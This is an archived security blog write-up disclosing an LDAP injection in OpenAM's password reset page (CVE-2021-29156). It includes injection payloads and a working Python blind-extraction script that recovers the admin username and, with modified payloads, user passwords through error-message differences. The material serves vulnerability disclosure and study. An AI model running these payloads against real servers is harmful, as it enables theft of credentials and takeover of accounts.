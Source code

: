 # LDAP INJECTION IN OPENAM
* Original URL: https://blog.cybercastle.io/ldap-injection-in-openam/
* Archive.org URL: https://web.archive.org/web/20210226031627/https://blog.cybercastle.io/ldap-injection-in-openam/
* CVE: [CVE-2021-29156](https://nvd.nist.gov/vuln/detail/CVE-2021-29156)

**TL;DR**

In this article we explain how we were able to identify and exploit an LDAP injection vulnerability within OpenAM access management  server platform.

**About OpenAM**

OpenAM is an open-source access management, entitlements and federation server platform. It was sponsored by ForgeRock until 2016. Now it is supported by Open Identity Platform Community. OpenAM originated as OpenSSO, an access management system created by Sun Microsystems and now owned by Oracle Corporation. Wikipedia

**LDAP Injection**

LDAP Injection is an attack used to exploit web based applications that construct LDAP statements based on user input. When an application fails to properly sanitize user input, it’s possible to modify LDAP statements through techniques similar to SQL Injection

**Vulnerability Details**

The vulnerability was found in the password reset feature that OpenAM provides. When a user tries to reset his password, he is asked to enter his username then the backend validates whether the user exists or not through an LDAP query before the password reset token is sent to the user’s email.  Setting the value of the username parameter PWResetUserValidation.tfUserAttr to * caused the server to respond with the following error Error: There is more than one user matching the specified value. Enter a different value, or contact your administrator for assistance. which indicates that it could be vulnerable to LDAP injection.

Setting the value of PWResetUserValidation.tfUserAttr parameter to **)|(objectclass=** returned the same error which means that the query returned more than a user. With that said, it’s possible to fetch any data from the directory service database using the following technique:

If the query returns more than one result => There error returned will be:  There is more than one user matching the specified value

If the query returns only one result => There are no questions configured for you or asks the user to answer questions

If the query doesn’t return anything => The password cannot be reset for this user

Thus, It’s possible to fetch the value of any property for the user object if we know the property name using **)|(propertyName=**a and if the server doesn’t return the errror: The password cannot be reset for this user then the value of the property has a character “a” and we can keep trying other characters until we get the full value.

Since the injection point is within the username property, we were able to extract usernames from the active directory service database using the following python script:

import requests

url = "https://[REDACTED]/amserver/ui/PWResetUserValidation"

charlist = "@_/:$%&^+,-=.1234567890abcdefghijklmnopqrstuvwxyza"

headers = {"Cookie":"[REDACTED]", User-Agent":"Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:64.0) Gecko/20100101 Firefox/64.0"

}

restart = True

res = ''

while restart:

restart = False

for char in charlist:

r = requests.post(url, headers=headers,data={"PWResetUserValidation.fldUserAttr":"uid",

"PWResetUserValidation.tfUserAttr":"%s%s*)(objectclass=*" % (res,char), "PWResetUserValidation.btnNext":"%C2%A0Next%C2%A0","jato.defaultCommand":"/btnNext","jato.pageSession":"1"}, verify = False)

print "%s%s %s" % (res,char, str(r.status_code))

# print r.content

if "cannot be reset for this user" not in r.content:

print "found %s%s" % (res,char)

res = "%s%s" % (res,char)

restart = True

break

And after running the script, it returned the username of the admin user: amadmin

After further testing, we decided to see if it would be possible to fetch passwords or password reset tokens.

First, we need to get the object class name, we were able to do this by setting the value of PWResetUserValidation.tfUserAttr parameter in the script to “**)(objectclass=**%s%s” % (char,res) which returned sunServiceComponent

![Untitled](images/forgerock_openam_ldapinj_0.png)

Now all we have to do is to look for the documentation of sunServiceComponent class at https://docs.oracle.com/cd/E19563-01/819-4437/6n6jckr11/index.html

One of the allowed attributes for this class is sunKeyValue which returns all attributes assigned to the user including the userPassword value.

Thus, we were able to fetch the user password by setting the value of PWResetUserValidation.tfUserAttr parameter in the script to “PWResetUserValidation.tfUserAttr”:”**)(sunKeyValue=**userPassword=%s%s*” % (res,char)

![Untitled](images/forgerock_openam_ldapinj_1.png)

That’s it for today, follow us and subscribe to our newsletter for more interesting writeups!

WRITTEN BY: MAHMOUD GAMAL
